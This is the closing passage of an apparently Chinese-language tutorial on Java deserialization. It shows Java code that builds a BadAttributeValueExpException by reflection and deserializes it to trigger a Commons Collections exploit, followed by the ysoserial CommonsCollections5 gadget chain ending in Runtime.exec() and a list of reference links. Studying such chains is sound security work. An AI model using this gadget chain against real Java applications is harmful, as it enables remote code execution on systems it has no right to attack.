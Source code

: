 ```
        Field field = badAttributeValueExpException.getClass().getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException, key);

        byte[] bytes = Serializables.serializeToBytes(badAttributeValueExpException);
        Serializables.deserializeFromBytes(bytes);
    }
}
```

>其中我们用反射的方式构造`badAttributeValueExpException`对象，因为其构造函数会判断是否为空，如果不为空在序列化时就会执行`toString()`，那么在执行反序列化时就会导致无法触发漏洞。

ysoserial的gadget如下

```
/*
	Gadget chain:
        ObjectInputStream.readObject()
            BadAttributeValueExpException.readObject()
                TiedMapEntry.toString()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()
	Requires:
		commons-collections
 */
```

# 参考链接

1. https://github.com/Y4er/WebLogic-Shiro-shell
2. https://www.xmanblog.net/java-deserialize-apache-commons-collections/
3. https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections5.java

